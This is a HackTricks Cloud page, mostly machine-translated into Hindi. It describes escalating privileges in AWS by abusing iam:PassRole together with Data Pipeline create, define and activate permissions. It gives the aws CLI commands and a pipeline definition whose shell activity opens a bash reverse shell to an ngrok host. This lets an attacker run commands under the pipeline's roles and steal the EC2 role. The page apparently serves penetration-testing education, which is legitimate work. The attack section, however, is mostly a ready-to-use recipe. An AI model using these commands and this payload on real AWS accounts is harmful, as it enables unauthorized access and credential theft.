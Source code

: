 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

datapipeline के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

इन **अनुमतियों वाले उपयोगकर्ता एक Data Pipeline बनाकर विशेषाधिकार बढ़ा सकते हैं** ताकि **नियुक्त भूमिका के अनुमतियों का उपयोग करके मनमाने आदेश निष्पादित कर सकें:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
पाइपलाइन निर्माण के बाद, हमलावर इसकी परिभाषा को अद्यतन करता है ताकि विशिष्ट क्रियाएँ या संसाधन निर्माण को निर्धारित किया जा सके:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
ध्यान दें कि **लाइन 14, 15 और 27** में **भूमिका** को **datapipeline.amazonaws.com द्वारा ग्रहण करने योग्य** होना चाहिए और **लाइन 28** में भूमिका को **ec2.amazonaws.com द्वारा ग्रहण करने योग्य होना चाहिए जिसमें एक EC2 प्रोफ़ाइल इंस्टेंस** हो।

इसके अलावा, EC2 इंस्टेंस केवल उस भूमिका तक पहुँच रखेगा जो EC2 इंस्टेंस द्वारा ग्रहण की जा सकती है (इसलिए आप केवल उसी को चुरा सकते हैं)।
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
The **pipeline definition file, crafted by the attacker, includes directives to execute commands** या AWS API के माध्यम से संसाधन बनाने के लिए, Data Pipeline की भूमिका अनुमतियों का लाभ उठाते हुए संभावित रूप से अतिरिक्त विशेषाधिकार प्राप्त करने के लिए।

**Potential Impact:** निर्दिष्ट ec2 सेवा भूमिका के लिए सीधे privesc।

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
